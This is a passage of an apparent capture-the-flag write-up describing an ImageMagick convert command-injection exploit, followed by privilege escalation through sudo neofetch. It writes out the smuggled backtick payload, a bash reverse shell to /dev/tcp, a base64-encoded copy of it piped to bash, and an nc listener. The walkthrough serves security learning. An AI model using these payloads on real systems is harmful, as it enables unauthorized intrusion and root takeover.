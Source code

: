 ```
➜ magick convert -define video:pixel-format='rgba"`cat test.txt > /tmp/leak3.txt`"' smile.gif smile.mov
```

that converts the uploaded gif file to .mov file

![](https://miro.medium.com/v2/resize:fit:875/1*cEhxlRnXL54HadxCA7VaNA.png)

so we can add our reverse shell code in the following format :


```
rgba"`cat test.txt > /tmp/leak3.txt`
```

from the errors in the website during testing I found “/tmp/file” so I thought it was Linux server

i made the following bash reverse shell

```bash
 bash -i >& /dev/tcp/255.255.255.255/5555 0>&1
```

but i used base64 encoding to avoid errors

```bash 
rgba"`echo ImJhc2ggLWkgPiYgL2Rldi90Y3AvMTY1LjIzMi4xODAuNzkvNTU1NSAwPiYxIg== | base64 -d | bash`"
```

![](https://miro.medium.com/v2/resize:fit:875/1*FxuC29LKgpej6-DMKJ_3vw.jpeg)

then i made a listener on my vps

```
nc -nlvp <port>
```

Then run convert in the website —> i got reverse shell on my vps

then we need to privilege escalation  
it was so easy “sudo -l ”

Found **neofetch** any user can run as root with sudo  
using gitfobins [https://gtfobins.github.io/gtfobins/neofetch/](https://gtfobins.github.io/gtfobins/neofetch/)

![](https://miro.medium.com/v2/resize:fit:875/1*eQuPTNoCv1mj2bgTa2yX3w.png)

using the above commands got the root shell  
And the flag found at “/root/flag.txt”


---

other challenges:   https://itsahmedatef.medium.com/arab-regional-cybersecurity-ctf-2023-web-challenges-and-one-reverse-writeup-3e14528ac0a9?source=post_page-----40361b678611--------------------------------


https://0x4de1.medium.com/arab-regional-cybersecurity-ctf-2023-hard-forensics-challenge-writeup-79345122c54a?source=post_page-----40361b678611--------------------------------
